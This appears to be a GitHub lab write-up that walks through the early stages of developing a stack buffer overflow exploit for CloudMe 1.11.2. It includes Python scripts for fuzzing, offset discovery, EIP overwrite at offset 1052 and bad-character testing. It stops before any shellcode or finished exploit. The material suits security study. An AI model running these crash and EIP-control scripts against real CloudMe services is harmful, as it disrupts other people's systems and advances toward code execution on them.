










# Buffer-Overflow-Lab-CloudMe-1.11.2
Hands-on cybersecurity lab focused on buffer overflow analysis and exploitation in a controlled environment.

## Overview

This repository documents a hands-on cybersecurity laboratory focused on understanding and analyzing a classic Buffer Overflow vulnerability in a controlled and isolated environment.

The objective of this lab was to learn the methodology used to identify, analyze, and validate a stack-based buffer overflow vulnerability using debugging and reverse engineering techniques.

> This project was conducted exclusively for educational purposes in a virtualized laboratory environment.

---

## Learning Objectives

- Understand the fundamentals of stack-based buffer overflows.
- Perform vulnerability analysis in a controlled environment.
- Learn how memory corruption affects program execution.
- Gain experience using debugging tools.
- Understand exploit development methodology.
- Study common mitigation techniques.

---

## Lab Environment

| Component | Version |
|------------|-----------|
| Victim System | Windows 10 x86 |
| Attacker System | Kali Linux x64 |
| Vulnerable Application | CloudMe 1.11.2 |
| Debugger | Immunity Debugger |
| Analysis Plugin | mona.py |
| Scripting Language | Python |
| Virtualization | Virtual Machine |

---

## Using Immunity Debugger

A virtualized laboratory environment was configured to safely perform the analysis. The target application, CloudMe v1.11.2, was deployed on a Windows 10 virtual machine, while the analysis and testing activities were conducted from a separate Kali Linux system.

Immunity Debugger and Mona.py were used to monitor the application's behavior during the different stages of the assessment and to inspect memory structures when crashes occurred.

- To begin the analysis, Immunity Debugger was launched on the target Windows machine. The CloudMe process was then attached by navigating to **File → Attach** and selecting the running CloudMe process from the available list.

- Once attached, the application could be monitored in real time, allowing inspection of memory regions, processor registers, loaded modules, and execution flow.

- During fuzzing and subsequent testing phases, Immunity Debugger automatically paused execution whenever the application crashed, making it possible to investigate the cause of the memory corruption.

- To resume program execution after attaching to the process, the **Run** button (play icon) located in the toolbar was used.

- Since the application terminated after each crash, CloudMe was restarted and reattached to Immunity Debugger before continuing with additional tests.

- Particular attention was given to the CPU window, where the processor registers are displayed. The **EIP (Extended Instruction Pointer)** register was monitored to verify control over program execution, while the **ESP (Extended Stack Pointer)** register was analyzed to understand stack behavior during the different stages of the assessment.



---

## Methodology

### Phase 1: Fuzzing and Crash Identification

A fuzzing process was performed by sending progressively larger inputs to the application. The purpose of this phase was to observe how the service handled unexpected or oversized data and determine whether memory corruption conditions could be triggered.

```Python
import socket

TARGET_IP = "127.0.0.1"
TARGET_PORT = 8888

size = 100

while size < 3000:

    print("\n[+] Sending {} bytes".format(size))

    raw_input("[*] Press Enter to continue...")

    try:
        payload = "A" * size

        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect((TARGET_IP, TARGET_PORT))
        client.send(payload)
        client.close()

        size += 100

    except:
        print("[!] Crash around {} bytes".format(size))
        break

```



After multiple iterations, the application crashed when processing an oversized input, indicating the presence of a potential buffer overflow vulnerability. The debugger confirmed that critical memory structures were being affected during the crash.



#### Evidence



---

### Phase 2: Offset Calculation

Once the crash was reproduced consistently, a unique cyclic pattern was used to determine the exact location within memory where execution flow could be influenced.

This process allowed precise identification of the offset required to reach the instruction pointer, an essential step for understanding the impact of the vulnerability and validating exploitability.



_Cyclic Pattern Created_

```Python
import socket

TARGET_IP = "127.0.0.1"
TARGET_PORT = 8888

pattern_created = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9"

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((TARGET_IP, TARGET_PORT))
client.send(pattern_created)
client.close()

print("-> Pattern was send succesfully, check the EIP in Immunity")
```



_EIP Captured_

#### Evidence



_Exact Offset Found at 1052_

---

### Phase 3: EIP Control Verification

The calculated offset was validated through controlled testing to confirm that the application's execution flow could be influenced as expected.

The objective of this stage was not to execute arbitrary code but rather to verify that the memory analysis performed in previous phases was accurate and reproducible.

```Python
import socket

TARGET_IP = "127.0.0.1"
TARGET_PORT = 8888

EXACT_OFFSET = 1052

fuzz = "A" * EXACT_OFFSET
fuzz += "BBBB"
fuzz += "C" * 500

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((TARGET_IP, TARGET_PORT))
client.send(fuzz)
client.close()

print("-> Fuzz was send succesfully, check the EIP, should be 42424242")
```

#### Evidence



_EIP: 42424242 | Total Control_

---

### Phase 4: Bad Character Analysis

Input character analysis was conducted to identify bytes that could interfere with memory processing or alter payload behavior.



_Bytearray created to look for badchars_

Understanding how the application handles specific characters is important for reliability testing and provides valuable insight into the application's memory management mechanisms.

```Python
import socket

TARGET_IP = "127.0.0.1"
TARGET_PORT = 8888

EXACT_OFFSET = 1052

BAD_CHARS = (
    "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
    "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
    "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
    "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
    "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
    "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
    "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
    "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)


fuzz = "A" * EXACT_OFFSET
fuzz += "BBBB"
fuzz += BAD_CHARS

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((TARGET_IP, TARGET_PORT))
client.send(fuzz)
client.close()

print("-> Checking bad characters")
```

#### Evidence



_No BadChars Found_

---

### Phase 5: Memory Analysis

A suitable instruction sequence was located within the process memory to redirect execution flow.

#### Objectives

- Analyze loaded modules.
- Locate executable memory regions.
- Understand control flow redirection.

#### Evidence


---

### Phase 6: Final Validation

The laboratory concluded with the validation of the complete vulnerability analysis process in the controlled environment.

#### Objectives

- Verify reproducibility.
- Confirm understanding of exploitation workflow.

#### Evidence


---
